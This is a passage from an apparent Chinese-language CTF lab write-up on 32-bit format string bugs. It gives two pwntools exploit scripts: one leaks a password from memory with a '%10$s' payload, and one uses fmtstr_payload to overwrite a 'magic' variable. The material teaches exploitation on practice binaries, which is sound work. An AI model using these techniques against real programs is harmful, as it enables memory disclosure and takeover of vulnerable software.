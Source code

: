 ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *

pwdAddr = 0x804A048
payload = p32(pwdAddr) + "|%10$s||"

io = process("./crack")
io.sendlineafter(" ? ", payload)
io.recvuntil("|")
leaked = u32(io.recvuntil("||", drop = True))
io.sendlineafter(" :", str(leaked))

io.interactive()
io.close()
```

32位的 binary 可以直接使用 pwntools 封装好的**fmtstr\_payload**函数：

![](http://ww1.sinaimg.cn/large/006AWYXBly1fq2zoc31gjj30om0p3jv2.jpg)

### lab8-craxme

同样是32位的 fsb，直接用 fmtstr\_payload 就可以解决

```python
lab8 [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from sys import argv
context.log_level = "debug"

magicAddr = ELF("./craxme").sym["magic"]

if argv[1] == "1":
    payload = fmtstr_payload(7, {magicAddr: 0xda})
else:
    payload = fmtstr_payload(7, {magicAddr: 0xfaceb00c})

io = process("./craxme")
io.sendlineafter(" :", payload)
io.interactive()
io.close()
```

如果想要自己实现 fmtstr\_payload 功能，可以参考这篇 [**文章**](https://paper.seebug.org/246/)

### lab9-playfmt
